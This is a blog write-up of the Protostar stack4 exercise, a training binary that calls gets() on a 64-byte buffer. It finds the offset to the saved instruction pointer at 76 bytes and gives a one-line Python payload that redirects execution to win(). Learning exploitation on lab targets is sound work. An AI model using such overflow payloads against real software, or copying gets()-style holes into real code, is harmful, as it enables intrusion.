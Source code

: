 ```yaml
---
layout: post
title: Buffer Overflow Examples, Taking control of the instruction pointer - protostar stack4
categories: binary-exploitation
tags: [Linux, Binary Exploitation, Buffer Overflow, c, Python]
image: binary-exploitation/BOF4/0.png
---
```


<hr>
### Introduction
#### Hey again ,Today's article is going to be short. So last time I solved stack3 , I'm back again and today I'm going to solve stack4 which is really interesting , it's slightly different from stack3 but that difference is a new thing to see if we compare it to the previous challenges. So let's not talk too much and jump right in.
#### Read my [other articles about buffer overflow](/categories)
![](/images/binary-exploitation/BOF4/0.png)
<hr>
### ./stack4
#### Let's take a look at the source code first :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```
#### Very simple ! it defines the `win` function then defines the `main` function which sets a buffer of 64 chars and stores our input in it. But wait a second where is the variable that we're gonna overwrite ? in the previous challenges we had a variable that is being used by a function to change the code flow , now what will we overwrite ?
#### The answer is the `EIP` which is the instruction pointer. And the instruction pointer is a memory address that holds the address of the next instruction in the program during execution. So if we overwrite that address the program will execute whatever that address refers to. let's try to exceed the buffer.
`python -c "print 'A' * 64"`
![](/images/binary-exploitation/BOF4/1.png)
#### The program didn't even crash ... why ? Because the return address is not directly after the buffer like in the previous challenges , Let's try 100 chars 
`python -c "print 'A' * 100"`
![](/images/binary-exploitation/BOF4/2.png)
#### The program crashed , Let's find where does it exactly crash like we did in the [previous challenge](/binary-exploitation/bof3) read it if you haven't done yet.
#### We will create a pattern with `pattern_create`
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF4/3.png)
#### Then we will pass it to the program in gdb 
![](/images/binary-exploitation/BOF4/4.png)
#### It crashes at `0x63413563`
#### We locate that with pattern_offset
`./pattern_offset.rb -q 63413563`
![](/images/binary-exploitation/BOF4/5.png)
#### We get exact match at offset 76
#### Next step is to find the address of `win()` 
`objdump -d`
![](/images/binary-exploitation/BOF4/6.png)
#### The address is `0x080483f4`
#### Now we can build our exploit : 
`python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | ./stack4`
![](/images/binary-exploitation/BOF4/7.png)
#### And we successfully changed the code flow !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Binary Exploitation article : [Buffer Overflow Examples, Overwriting a function pointer - protostar stack3](/binary-exploitation/bof3/)
#### Next Binary Exploitation article : [Buffer Overflow Examples, Code execution by shellcode injection - protostar stack5](/binary-exploitation/bof5/)
<hr>
